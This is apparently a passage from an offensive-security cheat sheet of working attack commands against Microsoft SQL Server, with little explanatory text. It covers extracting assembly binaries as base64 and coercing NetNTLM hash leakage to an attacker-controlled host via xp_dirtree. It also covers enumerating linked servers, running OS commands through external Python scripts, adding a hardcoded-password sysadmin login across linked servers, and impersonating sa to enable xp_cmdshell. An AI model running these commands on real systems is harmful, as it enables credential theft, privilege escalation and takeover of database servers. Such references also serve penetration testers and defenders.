 ### Binary Extraction as Base64

```c
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

### Steal NetNTLM Hash / Relay Attack

```c
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```

### Linked SQL Server Enumeration

```c
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

### Python Code Execution

```c
SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'print( "foobar" );';
SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami");';
```

### Register new Sysadmin User

```c
SQL> EXEC ('EXEC (''EXEC sp_addlogin ''''sadmin'''', ''''p4ssw0rd!'''''') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''sadmin'''',''''sysadmin'''''') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

### xp_cmdshell

#### Impersonate SA

```c
SQL> EXECUTE AS LOGIN = 'sa';
SQL> EXEC sp_configure 'Show Advanced Options', 1; 
SQL> RECONFIGURE; 
SQL> EXEC sp_configure 'xp_cmdshell', 1; 
SQL> RECONFIGURE;
SQL> EXEC xp_cmdshell 'dir';
```
